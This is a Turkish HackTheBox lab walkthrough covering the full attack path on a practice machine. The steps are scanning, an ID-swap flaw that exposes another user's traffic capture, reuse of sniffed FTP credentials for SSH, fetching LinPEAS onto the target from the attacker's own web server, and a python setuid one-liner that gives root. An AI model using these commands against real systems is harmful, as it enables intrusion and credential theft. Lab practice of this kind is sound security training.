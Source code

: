 ## 0️⃣ Makineye Bağlanmak
Hackthebox'ta bir makineye bağlanmak için öncelikle openvpn dosyası indirip buna bağlantı sağlamalıyız.  
- 🌐 Connect to HTB butonuna bas  
- 🖥️ Machines ve ardından OpenVPN seç  
- 🌍 EU ve boş bir EU serverı seçtikten sonra TCP protokolünü seç ve dosyayı indir  
- 💻 Terminalden:  
```bash
openvpn <vpndosyasi>
```  
- Ardından CTF sayfasındaki "join machine" butonuna basarak hedef makineyi çalıştır ve hedef ip'yi al  
- ✅ Böylece siber saldırıya hazırız  

---

## 1️⃣ Pasif Bilgi Toplamak
```bash
nmap -Pn -sC -sV -O -T4 -e <interface> -oN scan.txt <target_ip>
```
- 📡 Öncelikle hedef ip'ye ping atılarak bağlantının sağlıklı olarak sağlanıp sağlanmadığı kontrol edilir  
- 🔧 -e interface kısmında interface olarak openvpn ile bağlantı sağlayan arayüz girilmelidir (ifconfig ile kontrol edilebilir)  
- 📊 Nmap sonuçları incelendiğinde 21(FTP),22(SSH) ve 80(HTTP) portlarının açık olduğu bilgisine ulaşılır  
- ✅ İlk görev tamamlanır  

---

## 2️⃣ Aktif Bilgi Toplamak
- 🌐 80 yani HTTP portunun açık olması bu web sitesini ziyaret edebileceğimiz anlamına gelir. Tarayıcıya `HTTP://<hedef_ip>` yazılarak siteye ulaşılır  
- 🔎 2.görevde "security snapshot" ipucusu belirtiliyor. Web sitesinde ilgili sekmeye gidilir ve ikinci görevde istenen bilgi edinilir  
- 🗂️ Linkte `/data/1` yazdığı görülür ve ilgili sitede bir kullanıcının web trafiğine dair paket bilgileri görülür  
- 🔄 Numara değiştirilmeye çalışılır ve `/data/0` yazıldığında yoğun web trafiği olan başka bir kullanıcıya ulaşılır  
- 💾 Web trafiği yoğun olan 0 kullanıcısının web trafiği "download" butonuna basılarak indirilir  

---

## 3️⃣ Analiz ve Hacklemek
- 📂 İnen dosyaya çift tıklanarak wireshark açılır ve paketler incelenir  
- 📝 FTP protokolü ile iletilen paketlerde kullanıcı adı ve şifrenin açıkça yazdığı görülür  
- 🔑 Makineye bağlanmak için ssh protokolüne ihtiyaç duyarız. FTP şifresi ile SSH şifresinin aynı olabileceği ihtimalini deneriz:  
```bash
ssh nathan@<hedef_ip>
password: <ele geçirilen ftp parolası>
```  
- ✅ Sisteme erişim başarıyla sağlanır  
- 📄 `ls` çalıştırılarak bir txt dosyası olduğu görülür, `cat <dosya>` ile okunarak user flag'i ele geçirilir  
- 🎯 5 ve 6.görevler tamamlanır ve ilk flag başarıyla elde edilir  

---

## 4️⃣ Yetki Yükseltmek
- 🛡️ Root flag'ini ele geçirmek için hedef makinede root olmalıyız ancak elimizde root şifresi yok  
- 🔍 Linpeas modülünü kendi bilgisayarımıza indir:  
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```  
- 🖥️ Dosyanın bulunduğu klasörde sunucu aç:  
```bash
python3 -m http.server 8000
```  
- 🏹 Hedef makinede linpeas’ı indir:  
```bash
wget http://<senin_ip>:8000/linpeas.sh
```  
- ⏹️ Sunucuyu kapat: `CTRL+C`  
- ⚡ LinPEAS çalıştır:  
```bash
sh linpeas.sh
```  
- 🟡 Raporu incele, anlamlı bulguları kontrol et → `/usr/bin/python3.8` yolunu bul  
- 💻 Exploit çalıştır:  
```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```  
- 🔑 Root olduktan sonra root klasöründen txt dosyasını aç ve flagi al ✅  

---

💡 Bu rehber, HTB üzerinde **adım adım makineye bağlanma, bilgi toplama, analiz ve yetki yükseltme** süreçlerini kapsar.
